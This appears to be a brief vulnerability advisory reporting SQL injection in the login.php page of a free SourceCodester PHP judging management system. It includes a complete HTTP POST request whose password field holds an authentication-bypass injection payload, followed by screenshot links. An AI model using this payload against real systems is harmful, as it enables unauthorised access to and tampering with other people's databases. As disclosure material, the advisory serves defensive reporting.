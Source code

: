 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Judging Management System using PHP and MySQL Free Source Code | SourceCodester](https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html)

**Vulnerability File:**

login.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
POST /php-jms/login.php HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

password=-1' OR 3*2*1=6 AND 1=1 --+ &username=qeNtfPNC
```

![image-20231015182149405](Judging Management System_SQL injection.assets/image-20231015182149405.png)

![image-20231015182202919](Judging Management System_SQL injection.assets/image-20231015182202919.png)

![image-20231015221910813](Judging Management System_SQL injection.assets/image-20231015221910813.png)











